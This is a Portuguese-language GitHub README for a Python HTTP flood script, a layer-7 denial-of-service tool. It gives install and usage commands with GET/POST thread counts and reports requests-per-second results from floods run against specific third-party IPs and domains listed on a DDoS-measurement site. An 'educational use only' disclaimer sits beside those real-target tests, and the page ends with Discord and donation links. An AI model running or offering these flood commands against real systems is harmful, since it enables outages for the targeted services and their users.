 # Python HTTP Flood [![Views](https://hits.sh/github.com/e43bpyfloodpt/hits.svg)](https://github.com/e43b/Kemono-and-Coomer-Downloader/)

Este é um simples script de HTTP Flood desenvolvido em Python.

## Instalação
```sh
git clone https://github.com/e43b/Python-HttpFlood/
cd Python-HttpFlood
pip install -r requirements.txt  
```

## Uso 
```sh
python main.py <alvo> <GET/POST> <threads>
Exemplo: python main.py http://51.159.30.249 POST 1500
```

**Nota: Este script deve ser usado apenas para fins educacionais. Não é recomendado ou ético usar este script em sites sem permissão.**

## Configuração da Máquina e Testes
O script foi executado em uma máquina virtual com as seguintes especificações:
- CPU: 1 núcleo
- RAM: 2GB
- Velocidade de Internet: Download: 378.87 Mbit/s, Upload: 48.47 Mbit/s (medido com speedtest-cli)

## Configuração de Testes
Os testes foram realizados em diferentes sites para avaliar o desempenho na camada 7 (L7 Non Protected e L7 Non Protected SSL).

### Testes na Prática com Método POST
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142post.png)
Comando: `python main.py http://142.171.195.145/HIT POST 500`
- Requisições por segundo:
  - Máxima: 1500
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecpost.png)
Comando: `python main.py https://nodec.mediathektv.com POST 700`
- Requisições por segundo:
  - Máxima: 2800
  - Média: 1500

### Testes na Prática com Método GET
#### Site: https://dstat.cc/l7?id=MULTACOM-CORPORATION
![MULTACOM-CORPORATION](dstat/142get.png)
Comando: `python main.py http://142.171.195.145/HIT GET 500`
- Requisições por segundo:
  - Máxima: 3000
  - Média: 1000

#### Site: https://dstat.cc/l7ssl?id=FDCservers-1
![FDCservers-1](dstat/nodecget.png)
Comando: `python main.py https://nodec.mediathektv.com GET 700`
- Requisições por segundo:
  - Máxima: 2200
  - Média: 1500

## Autor
O criador desta ferramenta é [E43b](https://github.com/e43b/).

- **Discord:** [Servidor](https://discord.gg/CsBMMXBz7t)
- **Doação:** [Link para doação](https://oxapay.com/donate/40874860)
